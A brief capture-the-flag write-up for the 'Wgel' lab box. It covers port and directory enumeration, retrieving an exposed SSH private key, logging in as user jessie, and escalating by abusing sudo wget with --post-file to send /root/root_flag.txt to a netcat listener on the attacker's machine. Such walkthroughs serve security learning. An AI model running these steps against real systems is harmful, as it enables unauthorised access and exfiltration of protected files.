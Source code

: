 # Wgel CTF

Have fun with this easy box.

- User flag

	- The first thing I notice is that the port 80 is open and it diplays the Apache2 Default Page.
	- There is a comment for a certain 'Jessie'.
	- `nmap -sV <TARGET_IP>`
	- Ports open: 22 and 80.
	- `gobuster dir -u <TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	- On `/sitemap/` interesting content.
	- Still gobuster things.
	- `http://<TARGET_IP>/sitemap/.ssh/id_rsa`
	- Use that to connect via ssh.
	- `ssh jessie@<TARGET_IP>`
	- `find ~ | grep flag`
	- `cat /home/jessie/Documents/user_flag.txt`
	- `05**671******e42d**********8ff6`

- Root flag

	- `sudo -l`
	- On your machine `nc -lnvp 4444`
	- On target `sudo /usr/bin/wget --post-file=/root/root_flag.txt <YOUR_IP>:4444`
	- `**b96******9ad1da**********9263d`

